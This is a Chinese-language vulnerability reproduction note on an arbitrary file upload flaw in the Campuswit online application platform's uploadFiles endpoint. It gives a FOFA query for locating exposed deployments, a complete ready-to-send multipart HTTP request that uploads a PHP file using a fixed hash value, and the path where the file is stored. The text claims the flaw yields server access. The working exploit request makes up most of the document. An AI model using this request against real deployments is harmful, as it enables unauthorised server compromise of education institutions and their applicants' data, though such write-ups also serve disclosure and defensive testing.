


# 一、漏洞简介
Campuswit系统是以前沿的产品理念、先进的研发技术，优化用户体验，打造友好的、引导性的、全新的一站式在线申请平台，慧学教育科技（北京）有限公司Campuswit uploadFiles存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+  Campuswit系统

# 三、资产测绘
+ fofa`body="campuswit" `
+ 特征


# 四、漏洞复现
```plain
POST /v1/public/uploadFiles HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 412

--00content0boundary00
Content-Disposition: form-data; name="keep_filename"

1
--00content0boundary00
Content-Disposition: form-data; name="check_file"

1
--00content0boundary00
Content-Disposition: form-data; name="campuswitHash"

campuswit_hash_success
--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: text/php

1234
--00content0boundary00--
```



文件上传位置

```plain
/uploads/attachments/2024/03/26/1.php
```



